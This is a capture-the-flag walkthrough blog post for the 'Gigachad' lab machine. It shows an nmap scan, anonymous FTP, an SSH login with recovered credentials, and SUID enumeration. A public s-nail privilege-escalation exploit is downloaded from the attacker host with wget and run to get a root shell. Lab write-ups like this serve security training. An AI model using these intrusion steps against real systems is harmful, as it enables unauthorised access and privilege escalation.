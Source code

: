 ```yaml
---
title: "Gigachad CTF walkthrough"
description:"Gigachad CTF walkthrough"
layout:post
---
```

GIGACHAD

nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ nmap -p- -sV 192.168.56.151
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 22:42 EDT
Nmap scan report for 192.168.56.151
Host is up (0.0092s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
{% endhighlight %}

{% highlight text %}
robots.txt
User-agent: *
Disallow: /kingchad.html
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ftp 192.168.56.151                                                      130 ⨯
Connected to 192.168.56.151.
220 (vsFTPd 3.0.3)
Name (192.168.56.151:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 1000     1000          297 Feb 07 17:33 chadinfo
226 Directory send OK.
ftp> get chadinfo
local: chadinfo remote: chadinfo
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for chadinfo (297 bytes).
226 Transfer complete.
297 bytes received in 0.00 secs (87.0465 kB/s)
ftp> 
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ cat chadinfo
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
{% endhighlight %}

A reverse image search of drippinchad.png shows that the place is called the maidens 
tower in turkey. 

logging in with chad:maidenstower
{% highlight terminal %}                                                             
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ssh chad@192.168.56.151
chad@192.168.56.151's password: 
Linux gigachad 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
 
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 31 22:15:12 2021 from 192.168.56.101
chad@gigachad:~$
{% endhighlight %}
SUID bins
{% highlight terminal %}
chad@gigachad:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
{% endhighlight %}
We use searchsploit look for exploits for the installed s-nail program: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs]
└─$ searchsploit s-nail                 
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalation        | multiple/local/47172.sh
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

Preparing the exploit: 
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
File Type: POSIX shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/ctfs/gigachad/47172.sh
{% endhighlight %}
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ dos2unix 47172.sh 
dos2unix: converting file 47172.sh to Unix format...
{% endhighlight %}
Getting the exploit to the victim machine: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.151 - - [01/Apr/2021 10:34:48] "GET /47172.sh HTTP/1.1" 200 -

chad@gigachad:~$ wget http://192.168.56.101:8000/47172.sh
chad@gigachad:~$ chmod +x 47172.sh 
chad@gigachad:~$ ./47172.sh 

[.] Race #833 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 Apr  1 09:40 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# ls
47172.sh  ftp  user.txt
# id
uid=0(root) gid=0(root) groups=0(root),1000(chad)
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
{% endhighlight %}
